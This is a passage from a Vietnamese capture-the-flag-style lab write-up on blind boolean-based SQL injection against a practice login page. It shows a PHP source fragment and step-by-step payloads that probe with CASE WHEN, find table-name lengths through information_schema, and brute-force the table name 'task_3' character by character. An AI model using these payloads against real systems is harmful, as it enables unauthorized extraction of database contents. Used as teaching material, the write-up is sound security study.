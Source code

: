 ```php
            } else {
                echo '<center>Wrong username or password</center>';
            }
        } else {
            echo '<center>Wrong username or password</center>';
        }
    }

    if(isset($_POST['logout'])) {
        setcookie('remember', '', time() - 3600, "/");
        header('location: lab_boolean_based.php');
    }
```
#### Một trong số những hướng khai thác của lab này như sau:
**Bước 1: Tìm vị trí dính sql injection**

![](https://i.imgur.com/HEoIDNt.png)
![](https://i.imgur.com/ZUCdrCx.png)

Em test với username và thấy rằng username dính sql injection và dữ liệu nhận từ database không được hiện thị ra.

Nhưng nếu đăng nhập thành công em sẽ nhận được dòng thông báo là `Hello brooooooooooo!` còn nếu đăng nhập không thành công sẽ nhận được thông báo là `Wrong username or password`. Dựa vào điểm khác biệt này em bắt đầu thực hiện tấn công blind.

**Bước 2: Tìm độ dài tên bảng, tên bảng, độ dài tên cột, tên cột**

Bắt đầu với: `' OR (case when 1=1 then 1 else 0 end) -- `
![](https://i.imgur.com/IflFGnd.png)

Sau khi xác định được mệnh đề `CASE WHEN...` có thể thực thi được thì iem bắt đầu tìm độ dài của tên bẳng bằng: 
`' OR (case when (select length(table_name) from information_schema.tables where engine='InnoDB' limit 0,1)>0 then 1 else 0 end)=1 -- `

![](https://i.imgur.com/lsfpO4i.png)
*=> độ dài của tên bảng là 6*

Em bắt đâu brute force tên bảng bằng: `substring((select table_name from information_schema.tables where engine='innodb' limit 0,1),§1§,1)='§0§' then 1 else 0 end)=1 -- `
![](https://i.imgur.com/WhErlLB.png)

Start attack with payload set 1 is number from 1 to 6 and step 1; payload set 2 is list character.

![](https://i.imgur.com/iWjxWP9.png)

*=> tên bảng là `task_3`*

Em tiếp tục tìm tên cột bằng: 
`' OR (case when (select length(column_name) from information_schema.columns where table_name='task_3' limit 2,1)>7 then 1 else 0 end)=1 -- `
